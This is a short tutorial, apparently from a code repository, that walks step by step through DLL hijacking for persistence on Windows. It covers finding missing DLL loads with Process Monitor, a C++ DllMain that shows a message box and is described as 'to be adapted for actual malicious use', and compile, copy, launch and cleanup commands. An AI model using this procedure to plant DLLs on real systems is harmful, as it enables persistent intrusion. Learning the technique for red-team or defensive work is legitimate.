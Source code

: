 ```yaml
---
legal-banner: true
---
```


### **ESTABLISHING PERSISTENCE USING DLL HIJACKING**

DLL Hijacking takes advantage of the way Windows applications search for and load Dynamic Link Libraries (DLLs). Here is a detailed explanation of the commands and technical aspects of setting up a DLL Hijacking scenario:

### **STEP 1: IDENTIFYING VULNERABLE APPLICATIONS AND DLLS**

1.  Download and run Process Monitor.
2.  Set up a filter to observe the DLL loading behavior of the target application.
3.  Look for entries that indicate a DLL being searched for but not found, or loaded from a non-specific path.  
    `Filter -> Category -> Path -> contains -> .dll`

### **STEP 2: CREATING THE MALICIOUS DLL**

4.  Write C++ code that performs the desired malicious action when the DLL is loaded. Here’s an example that shows a basic message box when loaded (to be adapted for actual malicious use):
    
    ```c++
    #include <Windows.h>
    
    BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
      switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
          MessageBox(NULL, "DLL has been injected!", "DLL Hijacking", MB_OK);
          break;
      }
      return TRUE;
    } 
    ```
    
5.  Use a command line compiler like MinGW or Visual Studio `cl` command to compile the DLL.  
    `cl /LD MaliciousDll.cpp /Fe:MaliciousDll.dll`
    

### **STEP 3: PLACING THE MALICIOUS DLL**

6.  Depending on the DLL search order and your access rights, place the DLL in a directory that will be searched before the legitimate DLL’s usual directory.
7.  Common locations to test include the application’s directory or directories listed in the system `PATH`.  
    `copy MaliciousDll.dll C:\Path\To\Target\Application\`

### **STEP 4: TRIGGERING THE EXPLOIT**

8.  Simply starting the application normally should trigger the loading of your malicious DLL, if placed correctly.  
    `start "" "C:\Path\To\Target\Application\Application.exe"`

### **STEP 5: MONITORING AND CLEANUP**

9.  Reopen Process Monitor and check for the loading event of your `MaliciousDll.dll`.
10. Ensure that your message box or other indicators of execution appear as expected.
11. Remove the malicious DLL from the directory to prevent further execution and to clean up the environment.  
    `del C:\Path\To\Target\Application\MaliciousDll.dll`